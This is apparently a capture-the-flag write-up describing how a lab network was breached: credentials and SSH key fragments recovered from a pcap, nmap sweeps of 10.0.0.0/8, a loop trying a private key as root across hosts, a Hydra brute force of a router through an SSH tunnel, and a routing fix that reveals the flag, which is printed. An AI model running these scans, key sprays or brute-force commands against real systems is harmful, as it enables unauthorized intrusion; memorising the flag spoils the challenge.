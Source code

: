 # SSH

SSH access was given to the first server.

```bash
sshpass -p DioNer ssh kay@10.214.1.11 -p 2200
```

There is a [traffic.pcap](workdir/traffic.pcap) and [router.txt](workdir/router.txt) in the home directory.

![](screenshots/1.png)

# Pcap

There are various packets in the pcap. It is another generated non-realistic pcap with some information hidden. None of the framents contain a full connection.

There are a few [SSH private key](workdir/ssh_key.txt) fragments in email protocols: SMTP, IMAP, POP. It can be stitched together based on begin end and middle part.

Some connection artifacts that might suggest these below.
* Destination 
  + 10.201.0.2:22 (SSH)
* Username
  + `kay` (Original SSH)
  + `user` (HTTP POST)
  + `root` (SSH)
  + `admin@cq2025.com` (email)
* Password 
  + `DioNer` (Original SSH)
  + `pass` (HTTP POST)

# Nmap

Doing an internal portscan reveals no host that accept any of the user/pass combination from above. The whole `10.0.0.0/8` range was also scanned (with hosts that probably do not belong to the challenge). Some only accept private keys.

```bash
for s in {200..254}; do echo "Scanning 10.$s.0.0/24"; ./nmap -T5 -p22 10.$s.0.0/24; done

USER=root; while IFS= read -r host; do \
  ssh -i ./key -o BatchMode=yes -o PasswordAuthentication=no -o PreferredAuthentications=publickey \
      -o ConnectTimeout=1 -o StrictHostKeyChecking=no -o UserKnownHostsFile=/dev/null \
      "$USER@$host" 'echo AUTH_OK' >/dev/null 2>&1 && echo "$host" >> key_success.txt && echo "$host: OK" || echo "$host: FAIL"; \
done < hosts.txt
```

The SSH host from the pcap is not answering.

# Router

The host `router.net1` (10.200.0.254) has pw auth. Attempting to bruteforce it with Hydra works, the credentials are `admin:letmein`.

```bash
sshpass -p DioNer ssh kay@10.214.1.11 -p 2200 -L 22222:10.200.0.254:22
hydra -f -t 8 -s 22222 -L usernames.txt -P /opt/wordlists/seclists/Passwords/xato-net-10-million-passwords-100.txt ssh://localhost
```
![](screenshots/2.png)

The user also has sudo rights.

![](screenshots/3.png)

# Interfaces

The router has 2 interfaces, and the routing is off. The 201 range is not routed correctly.

```bash
ip a
nmap -T4 10.201.0.2
ip route
ip route get 10.201.0.2
```

![](screenshots/4.png)

Fixing the route makes the host from the pcap accessible.

```bash
ip route add 10.201.0.0/24 dev eth1
nmap -T4 10.201.0.2
```

# SSH

Doing another portscan from the router to the 10.201.0.2 reveals that it now answers for port 22, but it is filtered.

![](screenshots/5.png)

Accessing from the initial host is possible, and the flag is revealed after connection.

![](screenshots/6.png)

# Flag
`CQ25{r0uT3_f1X3d_53cr37_f0uNd}`